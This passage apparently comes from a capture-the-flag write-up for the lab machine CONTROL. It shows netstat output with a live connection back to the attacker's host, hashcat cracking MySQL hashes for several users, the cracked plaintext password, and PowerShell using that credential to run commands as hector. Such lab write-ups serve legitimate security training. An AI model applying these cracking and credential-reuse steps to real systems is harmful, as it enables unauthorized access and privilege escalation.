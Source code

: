 ```
  TCP    10.10.10.167:49700     10.10.16.9:6666        ESTABLISHED     3480
  TCP    [::]:80                [::]:0                 LISTENING       4
  TCP    [::]:135               [::]:0                 LISTENING       812
  TCP    [::]:3306              [::]:0                 LISTENING       1952
  TCP    [::]:5985              [::]:0                 LISTENING       4
  TCP    [::]:47001             [::]:0                 LISTENING       4
  TCP    [::]:49664             [::]:0                 LISTENING       452
  TCP    [::]:49665             [::]:0                 LISTENING       348
  TCP    [::]:49666             [::]:0                 LISTENING       964
  TCP    [::]:49667             [::]:0                 LISTENING       1764
  TCP    [::]:49668             [::]:0                 LISTENING       584
  TCP    [::]:49669             [::]:0                 LISTENING       604
  UDP    0.0.0.0:123            *:*                                    1936
  UDP    0.0.0.0:5353           *:*                                    1168
  UDP    0.0.0.0:5355           *:*                                    1168
  UDP    127.0.0.1:51867        *:*                                    964
  UDP    [::]:123               *:*                                    1936
  UDP    [::]:5353              *:*                                    1168
  UDP    [::]:5355              *:*                                    1168

```

- Let's check the results from `hashcat`
```
hector:0E178792E8FC304A2E3133D535D38CAF1DA3CD9D
manager:CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA                                 
root:0A4A5CAD344718DC418035A1F4D292BA603134D8
```
```
└─$ hashcat -m 300 hash /usr/share/wordlists/rockyou.txt --user
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-sandybridge-12th Gen Intel(R) Core(TM) i5-12400, 1436/2936 MB (512 MB allocatable), 2MCU
...
* Keyspace..: 14344385

0e178792e8fc304a2e3133d535d38caf1da3cd9d:l33th4x0rhector  
Approaching final keyspace - workload adjusted.           
...
```
- We have a potential password
  - Let's try running commands as `hector`
  - And it works
```
PS C:\inetpub\wwwroot> $env:ComputerName
$env:ComputerName
CONTROL
PS C:\inetpub\wwwroot> $user = "CONTROL\hector"
$user = "CONTROL\hector"
PS C:\inetpub\wwwroot>  $pass = ConvertTo-SecureString "l33th4x0rhector"  -AsPlainText -Force
 $pass = ConvertTo-SecureString "l33th4x0rhector"  -AsPlainText -Force
PS C:\inetpub\wwwroot> $cred = New-Object System.Management.Automation.PSCredential($user, $pass)
$cred = New-Object System.Management.Automation.PSCredential($user, $pass)
PS C:\inetpub\wwwroot> Invoke-Command -Computer localhost -Credential $cred -ScriptBlock { whoami }
Invoke-Command -Computer localhost -Credential $cred -ScriptBlock { whoami }
control\hector
PS C:\inetpub\wwwroot> 
```
